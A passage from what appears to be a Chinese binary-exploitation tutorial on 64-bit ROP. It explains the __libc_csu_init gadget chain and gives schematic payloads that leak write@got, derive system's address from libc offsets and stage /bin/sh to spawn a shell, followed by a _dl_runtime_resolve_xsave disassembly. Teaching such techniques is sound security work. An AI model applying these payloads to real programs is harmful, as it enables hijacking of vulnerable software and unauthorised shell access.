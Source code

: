 可以看到从`0x4005ea`开始，就依次将栈上的数据弹入到`rbx`, `rbp`, `r12`, `r13`, `r14`, `r15`中，在`0x4005d0`，又将`r15`传递给`rdx`(函数的第三个参数)，`r14`传递给`rsi`(函数的第二个参数)，`r13`传递给`edi`(函数的第1个参数)，随后通过`call   QWORD PTR [r12+rbx*8]`来调用函数，`r12`和`rbx`我们也是可以控制。后续会判断rbp，rbx是否相等，如果相等就会继续执行下面的`pop`并且`ret`就可以执行另外一个函数。 这样`libc.so`提供的`ROP`完全满足我们的需求，只是构造会比较麻烦一点。该库是在所有的`elf64`的程序里面都会加载的.

通过上面的信息作为基础，我们先构造`payload1`功能主要是调用`write`函数，并将`1(STDOUT_FILENO)`,`write@got`,`8(len)`3个参数进行传递获取到内存中write函数的地址
<pre>payload1 = "\x90"*payload_len + (return_addr=__libc_csu_init+5a=0x4005ea) + (rbx=0) + (rbp=1)
payload1 += (r12=write_got) + (r13=1) + (r14=write_got) + (r15=8) + (0x4005d0)	# write函数的调用
payload1 += "b"*56 + (return_addr=main) # 当write函数调用结束后，会继续pop6次，所以返回地址设置到程序的主函数进行payload2发送</pre>

获取到`write_addr`的内存地址后，通过偏移开始计算`system`的偏移地址，由于通过`__libc_csu_init`的ROP我们控制的第一个参数只能保存在`edi`，`32`位的空间所以无法直接使用`libc.so`中的`/bin/sh`的内存地址因为它是64位的,所以这里还要再加一层`payload`，通过`read`函数将`/bin/sh`写入到`.bss`段中(因为地址位数比较小，所以可以通过edi来传递)。
<pre>write_addr = u64(p.recv(8))
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])</pre>

在获取到`system`地址后，我们需要通过`read`函数将`/bin/sh`写入到程序的`.bss`段中，这样方便我们将该地址传入到`edi`，调用`system`函数拿到`shell`.这个具体的构造可以参照[蒸米的这篇文章](http://cb.drops.wiki/drops/papers-7551.html)来进行操作

<strong>第二种`_dl_runtime_resolve_xsave`:</strong>

<pre>0x00007ffff7ded240 +0:	push   rbx
   0x00007ffff7ded241 +1:	mov    rbx,rsp
   0x00007ffff7ded244 +4:	and    rsp,0xffffffffffffffc0
   0x00007ffff7ded248 +8:	sub    rsp,QWORD PTR [rip+0x20f5b9]        # 0x7ffff7ffc808 _rtld_global_ro+168
   0x00007ffff7ded24f +15:	mov    QWORD PTR [rsp],rax
   0x00007ffff7ded253 +19:	mov    QWORD PTR [rsp+0x8],rcx
   0x00007ffff7ded258 +24:	mov    QWORD PTR [rsp+0x10],rdx
   0x00007ffff7ded25d +29:	mov    QWORD PTR [rsp+0x18],rsi
   0x00007ffff7ded262 +34:	mov    QWORD PTR [rsp+0x20],rdi
   0x00007ffff7ded267 +39:	mov    QWORD PTR [rsp+0x28],r8
   0x00007ffff7ded26c +44:	mov    QWORD PTR [rsp+0x30],r9
   0x00007ffff7ded271 +49:	mov    eax,0xee
   0x00007ffff7ded276 +54:	xor    edx,edx
   0x00007ffff7ded278 +56:	mov    QWORD PTR [rsp+0x240],rdx
   0x00007ffff7ded280 +64:	mov    QWORD PTR [rsp+0x248],rdx
   0x00007ffff7ded288 +72:	mov    QWORD PTR [rsp+0x250],rdx
   0x00007ffff7ded290 +80:	mov    QWORD PTR [rsp+0x258],rdx
   0x00007ffff7ded298 +88:	mov    QWORD PTR [rsp+0x260],rdx
   0x00007ffff7ded2a0 +96:	mov    QWORD PTR [rsp+0x268],rdx
   0x00007ffff7ded2a8 +104:	mov    QWORD PTR [rsp+0x270],rdx
   0x00007ffff7ded2b0 +112:	mov    QWORD PTR [rsp+0x278],rdx
   0x00007ffff7ded2b8 +120:	xsave  [rsp+0x40]
   0x00007ffff7ded2bd +125:	mov    rsi,QWORD PTR [rbx+0x10]
   0x00007ffff7ded2c1 +129:	mov    rdi,QWORD PTR [rbx+0x8]
   0x00007ffff7ded2c5 +133:	call   0x7ffff7de6630 _dl_fixup
   0x00007ffff7ded2ca +138:	mov    r11,rax
   0x00007ffff7ded2cd +141:	mov    eax,0xee
   0x00007ffff7ded2d2 +146:	xor    edx,edx
   0x00007ffff7ded2d4 +148:	xrstor [rsp+0x40]		# dl_runtime_resolve 是没有这条指令
   0x00007ffff7ded2d9 +153:	mov    r9,QWORD PTR [rsp+0x30]
   0x00007ffff7ded2de +158:	mov    r8,QWORD PTR [rsp+0x28]
   0x00007ffff7ded2e3 +163:	mov    rdi,QWORD PTR [rsp+0x20]
   0x00007ffff7ded2e8 +168:	mov    rsi,QWORD PTR [rsp+0x18]
   0x00007ffff7ded2ed +173:	mov    rdx,QWORD PTR [rsp+0x10]
   0x00007ffff7ded2f2 +178:	mov    rcx,QWORD PTR [rsp+0x8]
   0x00007ffff7ded2f7 +183:	mov    rax,QWORD PTR [rsp]
   0x00007ffff7ded2fb +187:	mov    rsp,rbx
   0x00007ffff7ded2fe +190:	mov    rbx,QWORD PTR [rsp]
   0x00007ffff7ded302 +194:	add    rsp,0x18
   0x00007ffff7ded306 +198:	bnd jmp r11</pre>
